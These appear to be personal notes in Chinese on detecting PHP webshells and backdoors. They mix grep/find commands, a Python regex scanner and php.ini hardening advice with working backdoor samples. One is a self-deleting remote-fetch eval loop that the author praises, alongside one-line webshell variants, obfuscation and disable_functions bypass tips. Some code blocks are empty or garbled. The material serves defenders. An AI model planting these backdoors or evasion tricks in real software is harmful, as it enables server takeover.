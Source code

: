 * 寻找 PHP（网站）挂马，后门
一

php 后门木马常用的函数大致上可分为四种类型：



1. 执行系统命令: system, passthru, shell_exec, exec, popen, proc_open


2. 代码执行与加密: eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13


3. 文件包含与生成: require, require_once, include, include_once, file_get_contents, file_put_contents, fputs, fwrite


4. .htaccess: SetHandler, auto_prepend_file, auto_append_file


二

想找一个 关键词是“hellow word” 在哪些文件中有，我们用 grep 命令


grep --color -i -r -n "hellow word"  /data/www/

这样就能搜索出来 文件中包含关键词的文件

--color 是关键词标红

-i 是不区分大小写
-r 是包含子目录的搜索
-d skip 忽略子目录

可以用以上命令查找网站项目里的带有挂马的文件


三

.两个查后门的实用 linux 命令：
find /data/web/website/ -iname *.php -mtime -35 找出/data/web/website/目录下 35 分钟前新建的 php
find /data/web/website/ -name “*.php” | xargs grep “eval($_POST[” 找出/data/web/website/ 里面源码包含 eval($_POST[的 php 文件  (注意：POST 后面可能需要转义符“\”，否则有可能不能执行）

四.

例如

注入漏洞 eval(base64_decode

grep --color -i -r -n "eval"  /data/www/   找出来对比以前正常的代码，看是否正常。然后用 stat 查看这个木马文件的修改时间，最后去寻找 WEB 日志，找出木马从哪里进来的

eg: grep --color -i -r -n 'eval($_POST'  cncar/ 


五：

实用查找 PHP 木马命令：

查找 PHP 木马

# find ./ -name "*.php" |xargs egrep "phpspy|c99sh|milw0rm|eval\(gunerpress|eval\(base64_decoolcode|spider_bc"> /tmp/php.txt
 
# grep -r --include=*.php  '[^a-z]eval($_POST' . > /tmp/eval.txt
 
# grep -r --include=*.php  'file_put_contents(.*$_POST
.∗
);' . > /tmp/file_put_contents.txt
 
# find ./ -name "*.php" -type f -print0 | xargs -0 egrep "(phpspy|c99sh|milw0rm|eval\(gzuncompress\(base64_decoolcode|eval\(base64_decoolcode|spider_bc|gzinflate)" | awk -F: '{print $1}' | sort | uniq
查找最近一天被修改的 PHP 文件

#   find -mtime -1 -type f -name \*.php
修改网站的权限

# find -type f -name \*.php -exec chmod 444 {} \;
 
# find ./ -type d -exec chmod 555{} \;


假设最后更新是 10 天前我们可以查找 10 天内生成的可以 php 文件:

find /var/www/ -name “*.php” -mtime -10

也可以通过关键字的形式查找 常见的木马常用代码函数 eval,shell_exec,passthru,popen,system

find /var/www/ -name “*.php” |xargs grep “eval” |more
find /var/www/ -name “*.php” |xargs grep “shell_exec” |more
find /var/www/ -name “*.php” |xargs grep “passthru” |more

还有查看 access.log 当然前提是你网站的所有 php 文件不是很多的情况下

一句话查找 PHP 木马
# find ./ -name “*.php” |xargs egrep “phpspy|c99sh|milw0rm|eval(gunerpress|eval(base64_decode|spider_bc”> /tmp/php.txt
# grep -r –include=*.php ’[^a-z]eval($_POST’ . > /tmp/eval.txt
# grep -r –include=*.php ’file_put_contents(.*$_POST[.*]);’ . > /tmp/file_put_contents.txt
# find ./ -name “*.php” -type f -print0 | xargs -0 egrep “(phpspy|c99sh|milw0rm|eval(gzuncompress(base64_decode|eval(base64_decode|spider_bc|gzinflate)” | awk -F: ‘{print $1}’ | sort | uniq
查找最近一天被修改的 PHP 文件
# find -mtime -1 -type f -name *.php

六

以下其实是多余的操作了其实，但是还是有值得看的地方


，检查代码。

肯定不是一个文件一个文件的检查，Linxu 有强悍的命令

grep ‘eval’ * -R 全盘搜索当前目录所有文件（包含子目录）中带有 eval 的文件，这条可以快速查找到被挂马的文件。

关于 eval，请自行 google 一句话 php 代码。

2，查看日志。

不到这个时候不知道日志的可贵啊。

还是以 grep 命令为主。

思路：负责的站点是 Linux，只开了 2 个端口，一个 22 和 80，外部的执行命令是由从 80 端口进来，Selinux 报 httpd 访问/boot 文件，确认被挂马。而所有的命令执行必须 POST 提交给执行的文件。所以，查找日志中所有的 POST 记录。

cat access_log_20120823.log | grep ‘POST’ | grep -v ‘反向查找’ | less，通过 grep -v 排除正常 post，egrep 也支持正则，但是太复杂了，看懂不知道怎么运用。

（这里不建议用 cat，用 tail 可以追加一个文件来看）
这可以防患于未然，防止不知道哪天又被人黑进来了。每天看一眼日志。

3，对于网页目录，只给 apache 用户 rx 权限，不要给 w 权限，目录设置要加上 rx，不要给 w，个别文件除外。所以，配合 2 使用，Linux 下可以快速过滤刷选出来不规则的 POST 请求。

综合 1，2 其实就可以快速查找被黑的页面，被修改的文件替换干净的代码。

* 捡了一个非常淫荡的 PHP 后门，给跪了
  <?php

unlink($_SERVER['SCRIPT_FILENAME']);

ignore_user_abort(true);

set_time_limit(0);

$remote_file = 'http://xxx/xxx.txt';

while($code = file_get_contents($remote_file)){

@eval($code);

sleep(5);

};

?>

后门的代码第一行删除自身，然后驻留在后台内存里（关于 ignore_user_abort 函数，百度一下），等待外部链接

在 xxx.txt 中写入你的后门代码，访问后就会删除自己并循环执行 txt 的代码 


例如 txt 里面写了一句这样的代码 file_put_contents('./1.php',"<?php @eval($_POST[cmd])'"?>");


这样就会在目录下又生成一个木马


如果对方写了是执行命令 。。。

这段代码纯粹变成了一个等待命令的木马。。


而且管理员检查木马文件的时候  都找不到。。。


因为文件已经删除了



木马却注入在 php-fpm 内


sleep(5);  五秒就去远程读取一下指令。。。

........

打算将代码修改一下，加一些正则，去 163 某一篇新闻的评论里读取预先设定的恶意代码。。。hehe。。。


黑客连服务器都省了。。。



黑客只需要去网易新闻评论窗口内写入自己的代码就行


怕别人看懂？


直接加密


采用对称加密算法。。没有秘钥 谁也看不懂啥意思


秘钥在这段后门里面写着


所以非常安全



活生生就是一个远控木马啊！！

这么好的思路，给作者一个大赞

* 如何查找 php 木马后门高级篇

jusker (爱好后门后门分析) | 2014-05-17 11:54

<?php eval($_POST[xiao])?> # 在正常的编程中 eval 不常见，可通过字符串匹配查找 eval

常见的是变成

base64_decode(PD9waHAgZXZhbCgkX1BPU1RbeGlhb10pPz4=) #同样匹配这个 base64_decode，找到文件之后查看文件内容

这种形式可以绕过，另外还有其他形式

<?php $_GET['eval']($_POST['xiao']);?>#同样这断你可以如果一个文件中出现 eval，或者文件中同时出现$_GET $_POST 则输出文

件位置

if(key($_GET)=='singyea')call_user_func($_GET['singyea'],$_POST['singyea'])；

<?php $_GET['a']($_POST['b']);?> #这几种就比较猥琐

test.php?a=assert

密码 b

<?php assert($_POST[s]);?>#直接匹配 assert

<?php $_POST['iso']($_POST['cmd']);?>#匹配文件中同时拥有两个 POST 的直接输出文件位置

密码 cmd 菜刀配置信息填:<O>iso=assert</O

preg_replace("/[pageerror]/e",$_POST['error'],"saft"); #这种就是同时一个文件里有 preg_replace 跟 POST 直接输出文件位置然后手工查找

@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null); 与上面一样的匹配方式

<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?

$s = create_function('', $_REQUEST['c']);

$s();

// s.php?c=eval%28$_REQUEST[cmd]%29;&cmd=echo%201;

?>

<?php file_put_contents(base64_decode(文件名), base64_decode(小马 base64));?>

对于 webshell 的一句话查杀只需要找到以上基本就可以解决

然后对于大马来说有 fread,fwrite,mkdir,system,eval，basename 一些函数，可查 php filesystem 函数，如果有这个函数匹配是否存可以代码

最后一个就是查找 fsocket 跟 socket 函数

这个是用来查打流量的函数 ddos 之类


* [[https://www.cnblogs.com/chenpingzhao/p/6562415.html][PHP安全之webshell和后门检测 - 踏雪无痕SS - 博客园]] :website:

[2020-09-24 四 10:42]

** Article

基于 PHP 的应用面临着各种各样的攻击：

-  XSS：对 PHP 的 Web 应用而言，跨站脚本是一个易受攻击的点。攻击者可以利用它盗取用户信息。你可以配置 Apache，或是写更安全的 PHP 代码（验证所有用户输入）来防范 XSS 攻击

-  SQL 注入：这是 PHP 应用中，数据库层的易受攻击点。防范方式同上。常用的方法是，使用 mysql\_real\_escape\_string()对参数进行转义，而后进行 SQL 查询。

-   *文件上传*：它可以让访问者在服务器上放置（即上传）文件。这会造成例如，删除服务器文件、数据库，获取用户信息等一系列问题。你可以使用 PHP 来禁止文件上传，或编写更安全的代码（如检验用户输入，只允许上传 png、gif 这些图片格式）

-   *包含本地与远程文件*：攻击者可以使远程服务器打开文件，运行任何 PHP 代码，然后上传或删除文件，安装后门。可以通过取消远程文件执行的设置来防范

-   *eval/assert*：这个函数可以使一段字符串如同 PHP 代码一样执行。它通常被攻击者用于在服务器上隐藏代码和工具。通过配置 PHP，取消 eval 等函数调用来实现

-  Sea-surt Attack（Cross-site request forgery，CSRF。跨站请求伪造）：这种攻击会使终端用户在当前账号下执行非指定行为。这会危害终端用户的数据与操作安全。如果目标终端用户的账号用于管理员权限，整个 Web 应用都会收到威胁。

这里介绍上述加粗的几种攻击的方法

*** 一、各种 webshell


随着业务量的增大，越来越多的黑客来攻击扫描，网站安全性日益重要，一不留神就被黑客控制了服务器，最常见的方式就是通过 POST 请求来上传木马文件，从而达到可以执行任意命令，如果被控制就大事不妙了

所以还是要正视服务器的安全

最流行的一种后门叫做一句话木马，其形式如下所示：

#+BEGIN_EXAMPLE
#+END_EXAMPLE

这种容易被安全软件检测出来。为了增强隐蔽性，出现了各种一句话木马的变形，通过各种函数来伪装， *这里不得不吐槽 PHP 弱类型对于安全来说是致命的*

**** a、使用 str\_replace 函数


#+BEGIN_EXAMPLE

    //说明：请求参数  ?code=fputs(fopen(base64_decode(J2MucGhwJw==),w),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=="))
    最终执行命令")）?>
#+END_EXAMPLE

**** b、使用 str\_rot13 函数


#+BEGIN_EXAMPLE
    //说明：首先，将eval函数用str_rot13('riny')隐藏。然后，利用 e 修饰符，在preg_replace完成字符串替换后，使得引擎将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串。
#+END_EXAMPLE

**** c、使用 include 函数


#+BEGIN_EXAMPLE

    //由于include方法可以直接编译任何格式的文件为php格式运行，因此可以上传一个txt格式的php文件，将真正的后门写在文本当中。
#+END_EXAMPLE

**** d、使用 pack 函数


#+BEGIN_EXAMPLE
#+END_EXAMPLE

*** e、使用 session


#+BEGIN_EXAMPLE

     f、隐藏在html页面
     
     

    404 Not Found

    Not Found
    The requested URL was not found on this server.

#+END_EXAMPLE

**** g、使用 assert 函数


#+BEGIN_EXAMPLE
#+END_EXAMPLE

**** 或者


#+BEGIN_EXAMPLE

     h、使用copy函数复制文件
     
     

     二、代码混淆
     
      
#+END_EXAMPLE

或者

#+BEGIN_EXAMPLE
#+END_EXAMPLE

可以使用 weevely 工具来生成，代码伪装避开各种主流的杀毒软件

#+BEGIN_QUOTE
  PHP 后门生成工具 weevely

  weevely 是一款针对 PHP 的 webshell 的自由软件，可用于模拟一个类似于 telnet 的连接 shell，weevely 通常用于 web 程序的漏洞利用，隐藏后门或者使用类似 telnet 的方式来代替 web 页面式的管理，weevely 生成的服务器端 php 代码是经过了 base64 编码的，所以可以骗过主流的杀毒软件和 IDS，上传服务器端代码后通常可以通过 weevely 直接运行。

  weevely 所生成的 PHP 后门所使用的方法是现在比较主流的 base64 加密结合字符串变形技术，后门中所使用的函数均是常用的字符串处理函数，被作为检查规则的 eval，system 等函数都不会直接出现在代码中，从而可以致使后门文件绕过后门查找工具的检查。使用暗组的 Web 后门查杀工具进行扫描，结果显示该文件无任何威胁。
#+END_QUOTE

更常用的混淆视听的方法:（这种是服务器层面的混淆）

-  修改文件时间

-  改名融入上传后所在文件夹，让人无法直观看出文件异常

-  文件大小的伪装处理(至少看起大小像个正常脚本)

-  选好藏身路径并尽量少的访问

-  畸形目录%20

*** 三、如果绕过配置文件


一般的服务器管理员会把 system、exec 等危险函数禁用的，那么如何绕过呢？

*** 1、使用反射


相关内容可参考： [[http://cn2.php.net/manual/en/reflectionfunction.invokeargs.php]]。

#+BEGIN_EXAMPLE
    invokeArgs(array("$_GET[c]"));
    ?>
#+END_EXAMPLE

**** 2、使用 callback


php 提供的另外一种可间接调用函数的方法是 callback. 这里使用了 ob\_start.具体说明可参考：http://www.php.net/manual/en/function.ob-start.php

#+BEGIN_EXAMPLE
#+END_EXAMPLE

php 中支持 callback 的函数还有很多，比如 array\_map,array\_filter, array\_reduce,usort(),uksort(),array\_walk() 等

*** 四、安全人员应该怎么做


*** 1、如何查找


直观寻找方式也有很多

-  通过文件名/修改时间/大小，文件备份比对发现异常（SVN/Git 对比，查看文件是否被修改）

-  通过 WEBSHELL 后门扫描脚本发现，如 Scanbackdoor.php/Pecker/shelldetect.php/（zhujiweishi ）

-  通过 access.log 访问日志分析

下面是 360 zhujiweishi ，在 linux 服务器上非常简单好用

[[https://images2015.cnblogs.com/blog/268981/201703/268981-20170317102649479-757410709.jpg]]

通过常见的关键词如（可以使用 find 和 grep 等命令结合起来搜索代码中是否包含以下文件）

-  系统命令执行: system, passthru, shell\_exec, exec, popen, proc\_open

-  代码执行: eval, assert, call\_user\_func,base64\_decode, gzinflate, gzuncompress, gzdecode, str\_rot13

-  文件包含: require, require\_once, include, include\_once, file\_get\_contents, file\_put\_contents, fputs, fwrite

通过简单的 python 脚本

#+BEGIN_EXAMPLE
    #!/usr/bin/env python
    # encoding: utf-8
     
    import os,sys
    import re
    import hashlib
    import time
     
    rulelist = [
        '(\$_(GET|POST|REQUEST)\[.{0,15}\]\s{0,10}\(\s{0,10}\$_(GET|POST|REQUEST)\[.{0,15}\]\))',
        '((eval|assert)(\s|\n)*\((\s|\n)*\$_(POST|GET|REQUEST)\[.{0,15}\]\))',
        '(eval(\s|\n)*\(base64_decode(\s|\n)*\((.|\n){1,200})',
        '(function\_exists\s*\(\s*[\'|\"](popen|exec|proc\_open|passthru)+[\'|\"]\s*\))',
        '((exec|shell\_exec|passthru)+\s*\(\s*\$\_(\w+)\[(.*)\]\s*\))',
        '(\$(\w+)\s*\(\s.chr\(\d+\)\))',
        '(\$(\w+)\s*\$\{(.*)\})',
        '(\$(\w+)\s*\(\s*\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\]\s*\))',
        '(\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\]\(\s*\$(.*)\))',
        '(\$\_\=(.*)\$\_)',
        '(\$(.*)\s*\((.*)\/e(.*)\,\s*\$\_(.*)\,(.*)\))',
        '(new com\s*\(\s*[\'|\"]shell(.*)[\'|\"]\s*\))',
        '(echo\s*curl\_exec\s*\(\s*\$(\w+)\s*\))',
        '((fopen|fwrite|fputs|file\_put\_contents)+\s*\((.*)\$\_(GET|POST|REQUEST|COOKIE|SERVER)+\[(.*)\](.*)\))',
        '(\(\s*\$\_FILES\[(.*)\]\[(.*)\]\s*\,\s*\$\_(GET|POST|REQUEST|FILES)+\[(.*)\]\[(.*)\]\s*\))',
        '(\$\_(\w+)(.*)(eval|assert|include|require|include\_once|require\_once)+\s*\(\s*\$(\w+)\s*\))',
        '((include|require|include\_once|require\_once)+\s*\(\s*[\'|\"](\w+)\.(jpg|gif|ico|bmp|png|txt|zip|rar|htm|css|js)+[\'|\"]\s*\))',
        '(eval\s*\(\s*\(\s*\$\$(\w+))',
        '((eval|assert|include|require|include\_once|require\_once|array\_map|array\_walk)+\s*\(\s*\$\_(GET|POST|REQUEST|COOKIE|SERVER|SESSION)+\[(.*)\]\s*\))',
        '(preg\_replace\s*\((.*)\(base64\_decode\(\$)'
        ]
     
    def scan(path):
        print('           可疑文件         ')
        print('*'*30)
        for root,dirs,files in os.walk(path):
            for filespath in files:
                if os.path.getsize(os.path.join(root,filespath))<1024000:
                    file= open(os.path.join(root,filespath))
                    filestr = file.read()
                    file.close()
                    for rule in rulelist:
                        result = re.compile(rule).findall(filestr)
                        if result:
                            print '文件:'+os.path.join(root,filespath )
                            print '恶意代码:'+str(result[0][0:200])
                            print ('最后修改时间:'+time.strftime('%Y-%m-%d %H:%M:%S',time.localtime(os.path.getmtime(os.path.join(root,filespath)))))
                            print '\n\n'
                            break
    def md5sum(md5_file):
        m = hashlib.md5()
        fp = open(md5_file)
        m.update(fp.read())
        return m.hexdigest()
        fp.close()
     
    if md5sum('/etc/issue') == '3e3c7c4194b12af573ab11c16990c477':
        if md5sum('/usr/sbin/sshd') == 'abf7a90c36705ef679298a44af80b10b':
            pass
        else:
            print('*'*40)
            print "\033[31m sshd被修改，疑似留有后门\033[m"
            print('*'*40)
            time.sleep(5)
    if md5sum('/etc/issue') == '6c9222ee501323045d85545853ebea55':
        if md5sum('/usr/sbin/sshd') == '4bbf2b12d6b7f234fa01b23dc9822838':
            pass
        else:
            print('*'*40)
            print "\033[31m sshd被修改，疑似留有后门\033[m"
            print('*'*40)
            time.sleep(5)
    if __name__=='__main__':
     
        if len(sys.argv)!=2:
            print '参数错误'
            print "\t按恶意代码查找:"+sys.argv[0]+'目录名'
        if os.path.lexists(sys.argv[1]) == False:
            print "目录不存在"
            exit()
        print ('\n\n开始查找:'+sys.argv[1])
        if len(sys.argv) ==2:
            scan(sys.argv[1])
        else:
            exit()
#+END_EXAMPLE

**** 2、如何防范


**** php.ini 设置


-  disable\_functions =phpinfo,passthru,exec,system,chroot,scandir,chgrp,chown,shell\_exec,proc\_open,proc\_get\_status,ini\_alter,ini\_alter,ini\_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream\_socket\_server,get\_current\_user,leak,putenv,popen,opendir

-  设置“safe\_mode”为“on”

-  禁止“open\_basedir” 可以禁止指定目录之外的文件操作

-  expose\_php 设为 off 这样 php 不会在 http 文件头中泄露信息

-  设置“allow\_url\_fopen”为“off” 可禁止远程文件功能

-  log\_errors”设为“on” 错误日志开启

**** php 编码方面


-  所有用户提交的信息 post get 或是其他形式提交的数据 都要单独写个过滤函数处理一遍，养成习惯(intval，strip\_tags，mysql\_real\_escape\_string)

-  经常检查有没有一句话木马 eval($\_POST[ 全站搜索 php 代码有没有这样的源代码

-  文件要命名规范 至少让自己可以一目了然，哪些 php 文件名字有问题

-  如用开源代码，有补丁出来的话，尽快打上补丁

-  如果攻击者拿到了服务器的最高权限，有可能通过修改服务器的配置文件 php.ini 来达到他们隐藏后门的目的，前几年比较流行。原理如下：php.ini 里面的这两个配置项：auto\_prepend\_file ，auto\_append\_file 可以让 php 解析前，自己加点东西进去 Automatically add files before or after any PHP document,如果被配置了 eval()函数的后门 那就很阴险了，php 文件代码里面查不出，只会在 php 解析前包含 eval()函数进来 并且因为是全局的 所以所有 php 页面都是后门！所以要先确认 auto\_prepend\_file ，auto\_append\_file 没被配置成其他东西，才进行第 3 点的源代码检查。

**** 服务器配置


配置的时候尽量使用最小权限，不要写入或者执行的目录不能给相应的权限

nginx 或者 apache 配置的时候，不能访问的目录一定要配置为 deny

待续。。。

参考文章

https://github.com/chenpingzhao/php-webshells

http://blog.csdn.net/miltonzhong/article/details/9714367

http://blog.jobbole.com/53821/
